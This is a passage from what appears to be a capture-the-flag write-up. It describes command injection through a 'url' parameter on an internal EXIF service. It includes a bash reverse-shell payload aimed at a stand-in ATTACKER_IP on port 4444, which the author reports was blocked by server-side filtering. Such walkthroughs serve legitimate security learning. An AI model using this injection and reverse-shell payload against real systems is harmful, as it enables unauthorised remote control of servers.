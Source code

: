 <img style="float: left;" src="screenshots/screenshot16.png">

It works :smile:

<br>

With that, let's now try to set up a reverse shell:

```
http://api-dev-backup:8080/exif?url=;bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

<img style="float: left;" src="screenshots/screenshot17.png">

Uh oh, seems that there is some server-side filtering going on. I tried many other reverse shell payloads, but I kept getting the same error. Looks like we'll have to forgo opening a reverse shell and run our commands through the page instead.

<br>
